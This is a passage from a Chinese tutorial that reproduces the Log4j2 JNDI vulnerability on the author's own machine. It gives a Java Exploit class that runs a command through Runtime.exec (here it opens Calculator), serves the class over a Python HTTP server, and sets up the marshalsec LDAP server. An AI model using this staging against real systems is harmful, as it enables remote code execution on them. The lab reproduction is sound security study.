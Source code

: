 可以看到，我是通过 spring-boot-starter-log4j2 来间接引用的 log4j2 的。引入的具体包版本是这样的：

![](https://tva1.sinaimg.cn/large/008i3skNly1gxc99492j7j30dl03f0t0.jpg)

我们先写一段想要被执行的程序：

```java
public class Exploit {

    public Exploit() {
        try {

            System.out.println("执行漏洞代码");
            String[] commands = {"open", "/System/Applications/Calculator.app"};
            Process pc = Runtime.getRuntime().exec(commands);
            pc.waitFor();
            System.out.println("完成执行漏洞代码");

        } catch (Exception e) {
            e.printStackTrace();
        }

    }

    public static void main(String[] args) {
        Exploit exploit = new Exploit();

    }
}

```

这段程序是打开我电脑上的计算器程序。

**注意：这里的程序不要写 package 包名，我在这里浪费了不少时间，写包名可能会导致后面执行的时候报错。**

然后我们找一个空目录，把 java 文件 copy 过去，接着编译它：

```yaml
javac Exploit.java
```

接着我在当前目录下执行：

```yaml
python -m SimpleHTTPServer 8800
```

目的是启动一个 HTTP Server, 当然你也可以用 nginx 或者 java 程序来做，只要能够充当 HTTP Server 的都可以。

启动后你可以在浏览器里验证一下：

![](https://tva1.sinaimg.cn/large/008i3skNly1gxc9hd6c85j30ak055glp.jpg)

再来我们在本地启动一个 LDAP Server。

[https://github.com/mbechler/marshalsec](https://github.com/mbechler/marshalsec "https://github.com/mbechler/marshalsec") 从这里下载代码然后执行打包编译：
